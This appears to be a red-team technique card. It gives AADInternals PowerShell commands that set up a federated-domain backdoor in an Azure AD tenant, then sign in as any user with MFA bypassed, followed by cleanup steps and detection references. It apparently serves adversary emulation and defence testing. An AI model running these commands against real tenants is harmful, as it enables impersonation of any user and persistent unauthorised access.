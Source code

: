 ### Guidance

To set the backdoor 

```
PS> ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "{{ domain }}"
```

To use the backdoor. This works for any user in the tenant, regardless of their domain.

```
Open-AADIntOffice365Portal -ImmutableID {{ id }} -UseBuiltInCertificate -ByPassMFA $true -Issuer {{ issuer }}
```

- `id` is the immutable ID of the target user
- `issuer` is the IssuerUri provided in the output of the previous command 

### Cleanup

- Delete the domain

### Notes

- The domain must be verified for the backdoor to work

### References

- https://o365blog.com/post/aadbackdoor/
- https://www.mandiant.com/resources/blog/detecting-microsoft-365-azure-active-directory-backdoors

